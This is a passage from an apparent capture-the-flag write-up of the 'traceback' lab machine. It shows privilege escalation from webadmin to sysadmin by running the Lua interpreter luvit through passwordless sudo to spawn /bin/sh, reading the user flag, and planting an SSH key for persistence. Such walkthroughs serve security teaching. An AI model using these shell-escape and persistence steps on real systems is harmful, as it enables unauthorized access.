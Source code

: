     Welcome to Xh4H land

    Last login: Thu Mar 26 01:09:32 2020 from 10.10.17.253
    webadmin@traceback:~$

# Getting user

In our home folder we found a note from `sysadmin`, the other system user about
some lua tool.

    :::text
    webadmin@traceback:~$ cat note.txt
    - sysadmin -
    I have left a tool to practice Lua.
    I'm sure you know where to find it.
    Contact me if you have any question.

Looking at our `sudo` right we have the possibility to execute `luvit` as
`sysadmin` without password.

    :::text
    webadmin@traceback:~$ sudo -l
    Matching Defaults entries for webadmin on traceback:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User webadmin may run the following commands on traceback:
        (sysadmin) NOPASSWD: /home/sysadmin/luvit

We deduce that this is a lua interpreter and run some "Hello World" to confirm
it.

    :::text
    webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit 
    Welcome to the Luvit repl!
    > print("Hello World")
    Hello World

Next we just execute `/bin/sh` using our interpreter.

    :::text
    webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
    $ id
    uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)

We go to our new home directory and read `user.txt`.

    :::text
    $ bash
    sysadmin@traceback:~$ cd /home/sysadmin/
    sysadmin@traceback:/home/sysadmin$ ls
    luvit  user.txt
    sysadmin@traceback:/home/sysadmin$ cat user.txt 
    349f0968dce655cb15708bba0077d225

As before we add our public ssh key to the user's `.ssh/authorized_keys`.
